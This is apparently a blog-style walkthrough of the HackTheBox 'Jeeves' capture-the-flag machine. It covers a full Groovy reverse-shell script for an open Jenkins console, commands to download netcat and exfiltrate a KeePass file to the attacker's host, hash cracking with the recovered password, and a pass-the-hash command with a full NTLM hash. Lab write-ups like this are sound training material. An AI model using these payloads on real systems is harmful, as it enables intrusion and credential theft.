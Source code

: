 ```yaml
---
layout: single
title:  Jeeves-HackTheBox
date: 2021-12-18
classes: wide
header:
  teaser: 
tags:
  - ctf
  - HackTheBox
--- 
```



Jeeves is a reference to a Jenkins server that we will eventually be exploiting.

Starting off by scanning ports.
![](/assets/images/Jeeves/jeevesscan.PNG)

See there is at least one webserver. Fuzz directories, ran nikto etc. Nothing of real interest there.
Check out the second Jetty webserver spotted in the nmap scan. gobuster until we find askjeeves	
![](/assets/images/Jeeves/jeeves1finsihsed.PNG)

Stumble accross the scripting console
![](/assets/images/Jeeves/jeevescli.PNG)

Do research to find ways to exploit this
exploit jenkins with groovy script 
https://book.hacktricks.xyz/pentesting/pentesting-web/jenkins#code-execution
![](/assets/images/Jeeves/jeevesscript.PNG)

---
String host="<LOCAL-IP>";
int port=1234;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
---

![](/assets/images/Jeeves/jeevesusershell.PNG)  
We get a user shell as kohsuke. 
After a little bit of recon we come accross CEH.kdbx 
This file format appears to be a keepass password file. Before we attempt to see the password we have to download the file to our local machine. 
I achieved this by downloading a netcat executable from the user shell we are in from a python http server that we host.
powershell wget "http://localip:8000/nc.exe" -outfile nc.exe
The virtual machine cannot reach out to github to download the file from there
Then "nc -lnvp <port> > CEH.kdbx" on your local machine and "nc.exe <local-ip> <same-port> < CEH.kdbx" on the victim machine

We need a password to open the kdbx file. Why don't we crack it? 
I used this article as guidance, the main points summarized are:
https://www.rubydevices.com.au/blog/how-to-hack-keepass 
download and use keepass2john on the kdbx file.

./keepass2john CEH.kdbx > CEH.hash
Remove name of keepass database from the new hashfile. 
use hashcat to crack the file.

./hashcat -m 13400 -a 0 -w 1 CEH.hash <wordlist-file> 
 moonshine1 is the password to the keepass file
 ![]
 
 We find a hash in the keepass file under the title of Backup stuff
 From here I got stuck for a while. While researching I found the tool pth-winexe
 read the docs, run to get admin! 
 pth-winexe --user=jeeves/administrator%aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 --system //10.10.10.63 cmd.ex
 
 we now have a root shell!

admin has hm.txt file redirecting to actual file

get-content .\hm.txt -stream root.txt
type root.txt
